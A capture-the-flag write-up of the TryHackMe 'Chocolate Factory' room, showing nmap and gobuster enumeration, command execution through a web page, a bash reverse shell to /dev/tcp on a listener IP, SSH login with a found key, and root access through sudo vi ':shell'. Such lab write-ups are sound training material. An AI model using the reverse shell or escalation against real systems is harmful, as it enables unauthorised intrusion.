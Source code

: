 ```yaml
---
title: "ChocolateFactory TryHackMe"
date: "07-12-2021"
author: "Reda BELHAJ"
summary: "This room was designed so that hackers can revisit the Willy Wonka's Chocolate Factory and meet Oompa Loompa!"
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/chocolateTHM/chocolate.jpg"
---
```


## Enumeration:
### Nmap Scan:
The first step of my enumeration was a scan with **nmap**. by the command:

```
nmap -sC -sV -n -Pn 10.10.48.21 --reason
```

|Port   |Service   |
|---|---|
|21/tcp   |FTP   |
|22/tcp   |SSH   |
|80/tcp   |HTTP   |
|100/tcp  |newacct?  |
|106/tcp  |pop3pw?  |
|109/tcp  |pop2?  |
|110/tcp  |pop3?  |
|111/tcp  |rpcbind?  |
|113/tcp  |ident?  |
|119/tcp  |nntp?  |
|125/tcp  |locus-map?  |

### Gobuster Scan:
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:

```
gobuster dir -u http://10.10.48.21/  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,xml,php 
```

The wordlist I choosed to run this scan can be found in [danielmiessler's repository](https://github.com/danielmiessler/SecLists).

After we've completed our scan, we see a new page : ***"home.php"*** that allow you to submit commands via a prompt, I used the ls command and then the cat command to find the key in a file called **key\_rev\_key**.

## Enter the key you found!

```
VkgXhFf6sAE*******************************
```

## Reverse Shell

```
bash -c 'exec bash -i &>/dev/tcp/10.8.174.180/4444 <&1'
```

## What is Charlie's password?

I was looking with (www-html) user permission 
I found the password of charlie in the ***validate.php*** file:

```
cn****
```

## Enter the user flag
and I also found an rsa key and i saved it in ***Desktop/rsa***

```
ssh charlie@10.10.48.21 -i rsa
```

```
cat /home/charlie/user.txt
```

## Privilege Escalation

I typed the famous:

```
sudo -l
```

and it returned:

```
User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi

```

So i run the command sa root and i typed 

```
:shell
```

And i tried to find the root flag by :

```
find / root.txt
```

and i found: /root/root.py and I typed the key that i found in the first question:

```
flag{cec5916*************************}
```

![root image](/images/chocolateTHM/root.jpg)